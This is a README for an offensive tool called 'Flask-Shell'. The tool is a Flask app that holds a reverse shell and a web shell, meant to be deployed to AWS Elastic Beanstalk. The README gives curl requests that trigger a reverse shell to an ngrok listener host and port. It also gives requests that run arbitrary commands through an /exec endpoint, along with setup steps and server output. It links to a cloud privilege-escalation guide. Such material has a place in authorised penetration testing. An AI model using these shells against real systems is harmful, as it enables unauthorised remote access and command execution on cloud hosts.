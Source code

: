 # Flask-Shell
This Contains Flask Web and Reverse Shell

## Execute Reverse Shell
### From Elastic Beanstalk

Modify the Host and Port from the reverse shell application.py to get shell in your listener. If publishing to Elastic BeanStalk you will automatically get a Shell, if configured the Host and Port of you listener properly. 

Else The Reverse Shell can be executed, by sending the following GET request with your desired listener Host and Port

```bash
curl "http://<your-elastic-beanstalk-URL>/reverse_shell?host=0.tcp.ap.ngrok.io&port=18996"
```

More Info:

https://cloud.hacktricks.wiki/en/pentesting-cloud/aws-security/aws-privilege-escalation/aws-elastic-beanstalk-privesc.html#elasticbeanstalkrebuildenvironment-s3-write-permissions--many-others

https://docs.aws.amazon.com/elasticbeanstalk/latest/dg/python-quickstart.html

### From Local Setup for Testing

Make changes to the Last Line as below to run on local server port 5000

```python
# Use the following if you're upload to Elastic BeanStalk or other such container
    # application.run(debug=True)
    # Use the following for local Testing
     application.run(host='0.0.0.0', port=5000)
```

Then run the following command from the same folder where the application.py and requirments.txt file exist to start the Flask server with the reverse shell.

```
# export FLASK_APP=application.py && flask run --port 5000
 * Serving Flask app 'application.py'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
```

And start your listener and execute the following URL, depending your listener host and port.

```bash
curl "http://127.0.0.1:5000/reverse_shell?host=127.0.0.1&port=4444"
```


## Execute Web Shell
### From Elastic Beanstalk

Upload and Publish the Web Shell Flask app, as your requirments needed. Find help from the following links.

More Info:

https://cloud.hacktricks.wiki/en/pentesting-cloud/aws-security/aws-privilege-escalation/aws-elastic-beanstalk-privesc.html#elasticbeanstalkrebuildenvironment-s3-write-permissions--many-others

https://docs.aws.amazon.com/elasticbeanstalk/latest/dg/python-quickstart.html

Execute command by Sending the Following GET Request

```bash
curl "http://<your-elastic-beanstalk-URL>/exec?command=ls%20-l"
```

### From Local Setup for Testing

Make changes to the Last Line as below to run on local server port 5000

```python
# Use the following if you're upload to Elastic BeanStalk or other such container
    # application.run(debug=True)
    # Use the following for local Testing
     application.run(host='0.0.0.0', port=5000)
```

Then run the following command from the same folder where the application.py and requirments.txt file exist to start the Flask server with the reverse shell.

```
# export FLASK_APP=application.py && flask run --port 5000
 * Serving Flask app 'application.py'
 * Debug mode: off
WARNING: This is a development server. Do not use it in a production deployment. Use a production WSGI server instead.
 * Running on http://127.0.0.1:5000
Press CTRL+C to quit
```

And start your listener and execute the following URL, depending your listener host and port.

```bash
curl "http://127.0.0.1:5000/exec?command=ls%20-l"
```
